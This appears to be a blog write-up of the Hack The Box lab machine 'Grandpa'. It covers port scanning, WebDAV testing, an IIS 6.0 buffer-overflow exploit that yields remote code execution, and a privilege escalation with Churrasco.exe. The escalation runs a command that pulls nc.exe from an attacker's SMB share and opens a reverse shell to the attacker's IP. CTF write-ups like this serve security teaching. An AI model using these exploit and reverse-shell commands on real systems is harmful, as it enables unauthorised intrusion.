 ```yaml
---
title: "Grandpa"
date: 2023-08-30T13:24:37+02:00
tags: ["windows","web","privesc","buffer overflow"]
categories: ["hackthebox"]
author: "Ayman Boulaich"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "Windows machine with a website which has a buffer overflow vulnerability which allow us to get RCE. Thanks to Churrasco.exe we exploit the SeImpersonatePrivilege to privEsc."
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## Room Information

- Room name: Grandpa
- Difficulty level: Easy
- Room link: https://app.hackthebox.com/machines/Grandpa

![Untitled](/HTB/grandpa-icon.png)

## Tools Used

- nmap
- davtest
- searchsploit

## Port Scanning

```bash
sudo nmap $IP -n -Pn -vvv --min-rate 5000
```

```bash
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 6.0
|_http-server-header: Microsoft-IIS/6.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT POST MOVE MKCOL PROPPATCH
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-title: Under Construction
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   WebDAV type: Unknown
|   Server Date: Wed, 23 Aug 2023 11:04:23 GMT
|   Server Type: Microsoft-IIS/6.0
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We have only one port with a **http** site running and up.

## Enumeration

The website is gonna be our unique point of entry so let’s visit it.

![Untitled](/HTB/grandpa-1.png)

We have an **IIS** under construction page.

If we return to the **nmap** scan we can see that **webdav** is running as the granny machine so let’s test the **PUT** option with some extensions.

```bash
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://10.10.10.14
********************************************************
NOTE    Random string for this session: NHwzc9ANv
********************************************************
 Creating directory
MKCOL           FAIL
********************************************************
 Sending test files
PUT     html    FAIL
PUT     php     FAIL
PUT     txt     FAIL
PUT     jsp     FAIL
PUT     cfm     FAIL
PUT     shtml   FAIL
PUT     asp     FAIL
PUT     cgi     FAIL
PUT     aspx    FAIL
PUT     jhtml   FAIL
PUT     pl      FAIL

********************************************************
/usr/bin/davtest Summary:
```

All failed 😫 so we can’t play with the extensions.

## Exploiting

As we know we have **IIS 6.0 webDAV** let’s see if there is some vuln at searchsploit

![Untitled](/HTB/grandpa-2.png)

The **remote buffer overflow** which gives us **RCE** looks great.

Once executed doesn’t seems to work pretty well so I decided to search other similar exploit.

![Untitled](/HTB/grandpa-3.png)

If we check the **exploitdb** website we can see the **CVE** so let’s google a equivalent exploit.

This **github [exploit](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269)** worked for me. I perfomed the attack with the following command

```bash
python2 webdavBO.py 10.10.10.14 80 10.10.14.9 4444
```

## Gaining an Initial Foothold

![Untitled](/HTB/grandpa-4.png)

Navigating through the directories we can see the use of **Documents and Settings** folder as **Users** folder that tells you that the version is pretty older.

![Untitled](/HTB/grandpa-5.png)

If I try to access to **Harry** folder, we receive the following message.

![Untitled](/HTB/grandpa-6.png)

We need to **privEsc** in order to access to the user’s flag.

## Escalating Privilege

First of all, let’s check the current privileges

```bash
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
```

We can see that we have enabled the `SeImpersonatePrivilege` so as we know thanks to [Granny’s](https://pwndside.github.io/posts/granny-htb/) write up this is a vulnerability can be exploited so I am going to skip that part and go direct to the execution of **Churrasco.exe** in order to **privesc**.

```powershell
nc -lv 4445
```

```powershell
.\churrasco.exe "\\10.10.14.9\smbFolder\nc.exe -e cmd 10.10.14.9 4445"
```

![Untitled](/HTB/grandpa-7.png)

It has worked.

### Flag(s)

**User’s flag**

![Untitled](/HTB/grandpa-8.png)

**Root’s flag**

![Untitled](/HTB/grandpa-9.png)

**Thank you for reading, and happy hacking! 😄**